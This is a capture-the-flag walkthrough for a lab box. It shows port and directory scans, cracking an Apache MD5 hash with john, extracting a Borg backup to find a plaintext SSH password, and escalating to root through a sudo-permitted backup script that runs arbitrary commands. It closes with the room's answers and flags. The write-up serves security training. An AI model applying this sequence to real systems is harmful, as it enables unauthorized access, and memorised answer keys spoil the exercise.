 
## Room Description
A box involving encrypted archives, source code analysis and more.
## Solution
### nmap
**22**, **80**
### dirsearch
```
/etc/
/admin/
```
---
#### admins.html
There is page `/admin/admin.html`:
There are different names (could be useful in in the future):
```
Josh
Adam
Alex
```
#### passwd (/etc/squid)
In `/etc/squid` there is file `passwd` with credentials: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`
It looks like a *Apache MD5* key
We need to use tool like **john** or **hashcat** to decrypt key
```bash
echo "music_archive:\$apr1\$BpZ.Q.1m\$F0qqPwHSOG50URuOVQTTn." > hash.txt
john --format=md5crypt hash.txt # use --wordlist=/path/to/wrdlst if needed
```
Result: **squidward**
#### archive.tar
Also i downloaded `archive.tar` from `/admin/archive.tar`
There is a README file in it:
```
This is a Borg Backup repository.  
See https://borgbackup.readthedocs.io/
```
We should use `borg` *CLI* utility for "recovering" files
```bash
cd home/field/dev/final_archive
borg extract .::music_archive
```
Then go to the new extracted directory:
```bash
cd ./home/alex/
```
There are two txt files in Alex's home directory:
```
home/alex
├── Desktop  
│   └── secret.txt  
├── Documents  
│   └── note.txt  
├── Downloads  
├── Music  
├── Pictures  
├── Public  
├── Templates  
└── Videos
```
*Desktop/secret.txt*:
```
shoutout to all the people who have gotten to this stage whoop whoop!"
```
*Documents/note.txt:*
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!  
  
alex:S3cretP@s3
```
---
### User flag
```bash
ssh alex@<IP-OF-MACHINE>
ls # there is user.txt file
cat user.txt
```
`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
### Root flag
Lets see what Alex could execute without root rights:
```
$ sudo -l
Matching Defaults entries for alex on ubuntu:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User alex may run the following commands on ubuntu:  
   (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
This script supposes to backup all mp3 flles, but we also can execute commands via it:
```
$ sudo /etc/mp3backups/baskup.sh -c "echo hello world!"
<useless output about backups>
hello world!
```
So, lets use command to read root.txt file:
```bash
sudo /etc/mp3backups/baskup.sh -c "cat /root/root.txt"
```
`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`
## Questions
1. *Question #1*. Scan the machine, how many ports are open?
   *Answer*: **2**
2. *Question #2.* What service is running on port 22?
   *Answer*: **ssh**
3. *Question #3*. What service is running on port 80?
   *Answer*: **http**
4. *Question #4* What is the user.txt flag?
   *Answer*: **flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}**
5. *Question #5.* What is the root.txt flag?
   *Answer*: **flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}**
